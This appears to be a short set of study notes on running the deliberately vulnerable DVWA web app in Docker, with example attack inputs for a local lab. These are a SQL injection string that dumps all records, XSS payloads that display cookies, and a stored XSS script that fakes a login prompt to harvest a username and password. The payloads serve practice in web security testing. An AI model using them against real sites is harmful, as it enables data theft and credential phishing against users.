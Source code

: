 # Web Security

To run DVWA easily:
1. Install docker
2. Run docker
3. Enter the following command

```docker run --rm -it -p 80:80 vulnerables/web-dvwa```

4. Go to `localhost:80' (firefox is better than chrome since chrome as anti-xss stuff)
5. Enter `admin` and `password`
6. Scroll down and click create and reset database
7. Log back in using the same credentials


SQL Injection:
Displays all records in DB:

```%' or '0'='0```

DOM XSS:

```?default=<script>alert(document.cookie)</script>```

Onetime XSS:

```<script>alert(document.cookie)</script>```

Stored XSS:

Enter the following:

```
So happy to be here
<script>
  alert("Hi, we need you to login once more before you can sign the book");
  var user = prompt("Please enter your username");
  var pwd = prompt("Please enter your password");
</script>
```


